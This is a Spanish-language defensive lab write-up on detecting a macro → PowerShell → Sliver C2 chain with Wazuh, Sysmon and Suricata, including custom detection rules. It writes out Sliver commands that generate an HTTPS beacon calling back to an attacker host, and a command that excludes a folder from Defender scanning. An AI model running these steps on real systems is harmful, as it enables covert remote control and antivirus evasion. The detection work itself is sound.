





# Cadena de Infección: Phishing → Ejecución → C2 — Análisis Blue Team

> Laboratorio defensivo que documenta de punta a punta una cadena de infección
> **Delivery → Execution → Command & Control**, desde la perspectiva del SOC:
> qué detecta el SIEM, qué se le escapa y cómo se cierra cada brecha.

---

## Resumen ejecutivo

Este escenario reproduce, en un entorno controlado y segmentado, la cadena de
infección más frecuente que investiga un analista SOC: un documento de Office con
macro que ejecuta un proceso hijo, el cual establece un canal de Command & Control
(C2) hacia la infraestructura del atacante.

El foco no es el ataque, sino la **detección**. Para cada eslabón de la cadena se
documenta qué telemetría se genera, qué reglas del SIEM se activan (y cuáles no), y
qué reglas personalizadas fue necesario escribir para cerrar las brechas
identificadas.

**Resultado principal:** el beacon C2 fue detectado en la capa *endpoint* (Sysmon +
regla Wazuh personalizada), pero resultó **invisible para el IDS de red (Suricata)**
debido al cifrado HTTPS del canal. Ese contraste demuestra empíricamente por qué la
detección de C2 moderna exige defensa en profundidad y no puede depender únicamente
de firmas de red.

**Nota de alcance (honestidad del escenario):** el laboratorio no incluye servidor
de correo, filtro de mail ni usuario víctima real. La etapa de *delivery* está
**simulada**: se asume una entrega exitosa y el foco es la detección
**post-ejecución**. La descripción precisa es "simulación post-delivery → ejecución →
C2 → detección".

---

## Arquitectura del laboratorio

```
                        Internet (router doméstico)
                                   │
                          ┌────────┴────────┐
                          │     pfSense     │  Firewall + NAT + Suricata IDS
                          │  Default deny   │
                          └────────┬────────┘
          ┌───────────────────────┼───────────────────────┐
     REDKALI                  REDDMZ (em2)             REDMGMT
   192.168.10.1              192.168.20.1             192.168.30.1
          │                       │                       │
 ┌────────┴─────────┐   ┌─────────┴──────────┐  ┌─────────┴─────────┐
 │  Kali Linux      │   │ Windows Server 2025│  │ Wazuh 4.7.5       │
 │  192.168.10.10   │   │ 192.168.20.10      │  │ 192.168.30.10     │
 │  (Atacante)      │   │ (Víctima/SV-WEB-01)│  │ (SIEM / MGMT)     │
 │  Sliver C2       │   │ Sysmon + Ag. Wazuh │  │ Ubuntu 22.04      │
 └──────────────────┘   │ Defender / AMSI    │  └───────────────────┘
   Red interna "ATK"     └────────────────────┘   Red interna "MGMT"
                          Red interna "DMZ"

Beaconing:  WinSrv(20.10) ── HTTPS/443 ──> pfSense ──> Kali(10.10)   [cruza pfSense → visible para Suricata]
Telemetría: WinSrv(20.10) ── 1514/1515 ──> pfSense ──> Wazuh(30.10)
```

| Componente | Versión | Rol |
|---|---|---|
| pfSense | 2.7.2 | Firewall, NAT, segmentación, host de Suricata |
| Wazuh | 4.7.5 (All-in-One) | SIEM (Indexer + Manager + Dashboard) |
| Ubuntu Server | 22.04 LTS | Base del SIEM |
| Windows Server | 2025 | Endpoint víctima (`SV-WEB-01`) |
| Sysmon | 15.x + config SwiftOnSecurity | Telemetría de endpoint |
| Kali Linux | 2024.x | Máquina atacante |
| Sliver | build `devel` | Framework de Command & Control |
| Suricata | paquete pfSense | IDS de red |

**Política de firewall.** Política base **default deny** entre todas
las zonas; solo se permite lo que tiene sentido para el caso de uso. Reglas efectivas
en REDDMZ durante la fase C2:

| # | Proto | Origen | Destino | Puerto | Propósito |
|---|---|---|---|---|---|
| 1 | TCP | 192.168.20.10 | 192.168.30.10 (Wazuh) | 1514–1515 | Telemetría agente → manager |
| 2 | TCP | 192.168.20.10 | 192.168.10.10 (Kali) | 443 | Ruta del beacon C2 |

---

## Fase 1 — Diseño del escenario y aislamiento de red

### Decisiones de diseño

**Atacante (Kali) como zona interna ATK, no en la WAN.** Entre zonas internas pfSense
solo rutea (no aplica NAT), de modo que Suricata observa el tráfico del beacon
*pre-NAT*, conservando la IP real del host comprometido (`192.168.20.10`). Esto
permite correlacionar directamente la alerta de red con el evento de endpoint del
mismo host. Además, sin ruta hacia la WAN durante la fase C2, la contención es
estructural.

**Estado de Defender: actualizado y con versión fijada.** Para que la afirmación "el
endpoint detecta el implante" sea reproducible y defendible, se actualizó Defender.

```
AMEngineVersion : 1.1.26070.7   | AMProductVersion : 4.18.26070.9 | AntivirusSignatureVersion : 1.457.96.0  
```

### Validación 

**Contención de trafico (desde el WinSrv):**

```powershell
Test-NetConnection 8.8.8.8 -Port 443
# TcpTestSucceeded : False   → la víctima NO sale a Internet (contención OK)
```

**Ruta del beacon (desde el WinSrv):**

```powershell
Test-NetConnection 192.168.10.10 -Port 443
# Sin listener en Kali → False (el host responde RST: puerto cerrado)
# Con listener activo  → True  (handshake TCP completo)
```

> **Aprendizaje técnico — por qué da `False` sin listener.** `Test-NetConnection`
> realiza una prueba TCP de extremo a extremo: requiere el *three-way handshake*
> completo, que no puede cerrarse si no hay un puerto en escucha del otro lado. Por
> eso reporta `False` sin listener aunque el firewall permita el tráfico. Es decir,
> valida **conectividad de sesión**, no solo que la regla de firewall exista.


### Preparación de Defender

La actualización de firmas exigió salida temporal a Internet. Como el WinSrv está en
default-deny, se abrió de forma temporal la salida (DNS + HTTPS) para actualizar
Defender y se **cerró inmediatamente después**, revalidando la contención

---

## Fase 2 — Delivery y Ejecución

### Macro de demostración (benigno)

Se instaló Microsoft Office en el WinSrv para poder utilizar macros dentro del propio
Word, y se creó un documento habilitado para macros (`Lab_Demo_Delivery.docm`) con el
siguiente macro **estrictamente de demostración**:

```vba
Private Sub Document_Open()
    Dim cmd As String
    cmd = "powershell.exe -NoExit -Command ""Write-Host 'LAB DEMO - Macro ejecutado'; " & _
          "Set-Content -Path C:\Users\Public\macro_demo_marker.txt " & _
          "-Value ('Ejecutado por macro VBA - ' + (Get-Date))"""
    Shell cmd, vbNormalFocus
End Sub
```

El macro lanza un `powershell.exe` visible. Su único propósito es **reproducir el
árbol de procesos** `winword.exe → powershell.exe`, que a nivel de telemetría de
endpoint es idéntico al de un macro armado (Sysmon EID 1, sea el macro benigno o malicioso).



*Código del macro en el editor VBA.*

### Sysmon EID 1 y regla personalizada 100200

La apertura del documento y la habilitación del contenido solamente generaron el evento Sysmon EID 1 esperado,
pero la regla no fue elevada en wazuh. Por eso se creo la siguiente regla personalizada.


```xml
<rule id="100200" level="12">
  <if_group>sysmon_event1</if_group>
  <field name="win.eventdata.parentImage" type="pcre2">(?i)winword\.exe</field>
  <field name="win.eventdata.image" type="pcre2">(?i)powershell\.exe</field>
  <description>Word lanzo PowerShell como hijo - posible macro malicioso (T1204.002)</description>
  <mitre><id>T1204.002</id><id>T1059.001</id></mitre>
</rule>
```

Tras reiniciar el manager y reejecutar el macro, la regla **100200 (nivel 12)** se
activó correctamente.



---

## Fase 3 — Command & Control (Sliver)

El servidor C2 se montó en Kali instalando **Sliver** (build `devel` de los repos).
Se levantó un listener HTTPS y se generó el implante para Windows:

```
# Listener (dentro de sliver-server):
https --lhost 192.168.10.10 --lport 443

# Generación del implante:
generate beacon --http 192.168.10.10:443 --os windows --arch amd64 --save /home/kali
```

El binario resultante (`ACCURATE_EXCHANGE`) se **renombró a `implante2.exe`** y se
transfirió al WinSrv por HTTP desde la infraestructura del atacante
(`python3 -m http.server`), el mismo mecanismo que emplearía un dropper real (T1105).

**Al tocar disco, Defender detectó y eliminó el implante en tiempo real**
(`Test-Path → False`), identificándolo como **`Trojan:Win32/Gracing.I`** (severidad
5). La detección quedó también en el SIEM con la regla **92207 (nivel 12)**. El
implante Sliver sin ofuscación adicional fue así detectado por la capa endpoint
**antes de ejecutarse**, con la versión de firmas fijada en la Fase 1.

Para poder analizar las capas posteriores (el C2 en ejecución), fue necesario crear
una **exclusión de Defender** que simula un implante que LOGRRO EVADIR EL ANTIVIRUS:

```powershell
Add-MpPreference -ExclusionPath "C:\Users\Public"
```

> **Honestidad del escenario.** La exclusión es artificial (la introdujo el analista,
> no la evadió el implante). En un ataque real esto se lograría mediante
> ofuscación/packing. Es una **precondición de entorno documentada**, no una acción
> del atacante: se simula el caso post-evasión para poder analizar la defensa en
> profundidad. No se afirma que Sliver evada Defender —no lo hace: fue detectado como
> `Gracing.I`—.

Con la exclusión activa, el implante ejecutó y estableció el canal C2: beacon
`ACCURATE_EXCHANGE`, transporte http(s), callback desde `192.168.20.10` hacia
`192.168.10.10:443` con jitter ~60s.




---

## Fase 4 — Detección del Command & Control

### Sysmon EID 3 y regla personalizada 100201

Cada callback del beacon generó un evento Sysmon EID 3 (conexión saliente del proceso
`implante2.exe` hacia `192.168.10.10:443`). Los timestamps mostraron una **cadencia
regular con jitter (~60–75 s)**, la firma temporal característica de un C2 (un latido
rítmico, no una conexión aislada).

Igual que con el EID 1, **el evento se registró en Sysmon (Windows), pero no apareció
como alerta en Wazuh nuevamente.** La causa: Wazuh clasifica el EID 3 en **nivel 0 (silenciado)**
por defecto, y solo lo eleva para casos específicos (RDP y WinRM). Por ese motivo se creo una regla personalizada

```xml
<rule id="100201" level="12">
  <if_group>sysmon_event3</if_group>
  <field name="win.eventdata.image" type="pcre2">(?i)implante2\.exe</field>
  <field name="win.eventdata.destinationPort" type="pcre2">^443$</field>
  <description>Conexion C2 saliente detectada - beacon Sliver (T1071)</description>
  <mitre><id>T1071</id></mitre>
</rule>
```

La regla **100201 (nivel 12)** se activó repetidamente —una alerta por cada callback—,
elevando el evento silenciado a alerta visible con las IPs de origen/destino y mapeo
T1071.



### Suricata — El punto ciego del HTTPS

Se desplegó Suricata en pfSense sobre la interfaz REDDMZ en modo IDS (sin bloqueo,
para no interrumpir el C2 en observación), con los rulesets ET Open y ABUSE.ch SSL
Blacklist activados.

Suricata no generó ninguna alerta del C2. El canal viaja cifrado (HTTPS/TLS).
En un entorno real, la visibilidad se recuperaría con **SSL/TLS Inspection**) 
mediante un NGFW o proxy de intercepción, con sus trade-offs



### El mismo beacon, dos capas

| Capa | Mecanismo | ¿Detecta? | Motivo |
|---|---|---|---|
| **Endpoint** | Sysmon EID 3 + regla 100201 | ✅ Sí | Opera en el host, ve proceso y destino, independiente del cifrado |
| **Red** | Suricata IDS (pasivo) | ❌ No | El HTTPS oculta el payload; sin TLS decrypt no hay firma que coincida |

Este contraste es la justificación de la defensa en profundidad: un SOC con solo IDS
de red estaría ciego a este C2; la capa endpoint sostiene la detección.

---

## Limitaciones y honestidad del escenario

- **Delivery simulada.** No hay servidor de correo ni usuario víctima; se asume
  entrega exitosa. Descripción precisa: "simulación post-delivery → ejecución → C2 →
  detección".
- **Macro benigno.** Solo produce el árbol de procesos; no incluye dropper. A nivel de
  telemetría de endpoint es indistinguible de un macro armado.
- **Exclusión de Defender artificial.** Precondición de entorno para analizar las
  capas posteriores; no representa una evasión real del implante (detectado como
  `Gracing.I`).
- **C2 hacia IP privada.** La zona ATK representa el segmento externo/no confiable; en
  producción el C2 resolvería a una IP pública. Convención estándar de laboratorio.

---

## Conclusiones

El escenario reproduce y detecta una cadena de infección completa, y su valor reside
en el análisis de las brechas: se identificaron y cerraron dos gaps de detección en la
capa endpoint (reglas 100200 y 100201) y se demostró empíricamente el punto ciego de
la detección de red frente a C2 cifrado. El conjunto ilustra tres principios de
operación de un SOC:

1. **Modelo de dos compuertas** — que un evento se genere en Sysmon no implica que se
   eleve a alerta en el SIEM; son procesos independientes. Ambas detecciones de este
   escenario cruzaban la primera compuerta pero se detenían en la segunda hasta
   escribir las reglas 100200 y 100201.
2. **Nivel de alerta ≠ severidad real** — el razonamiento del analista sobre la
   evidencia cruda prima sobre el número de severidad (caso 92213).
3. **Defensa en profundidad** — la capa endpoint detectó lo que la red no pudo ver por
   el cifrado.

---

## Marco MITRE ATT&CK

Mapeo de la cadena completa, ordenado según la secuencia del ataque:

| Orden | Técnica | ID | Etapa en el escenario |
|---|---|---|---|
| 1 | Phishing | T1566 | Delivery (simulada) |
| 2 | User Execution: Malicious File | T1204.002 | Apertura del `.docm` y habilitación del macro |
| 3 | Command and Scripting Interpreter: PowerShell | T1059.001 | Proceso hijo `powershell.exe` |
| 4 | Ingress Tool Transfer | T1105 | Transferencia del implante desde el atacante |
| 5 | Application Layer Protocol (C2) | T1071 | Beacon Sliver sobre HTTPS |
| — | Valid Accounts | T1078 | Contexto (mapeo del intento de logon fallido) |

---

## Apéndice — Referencia técnica

**Reglas personalizadas escritas**

| ID | Nivel | Grupo | Condición | MITRE |
|---|---|---|---|---|
| 100200 | 12 | sysmon_event1 | parentImage=winword.exe AND image=powershell.exe | T1204.002, T1059.001 |
| 100201 | 12 | sysmon_event3 | image=implante2.exe AND destinationPort=443 | T1071 |


---

*Escenario documentado con fines de portfolio y práctica defensiva. Todo el trabajo se
realizó en un entorno de laboratorio aislado y controlado.*
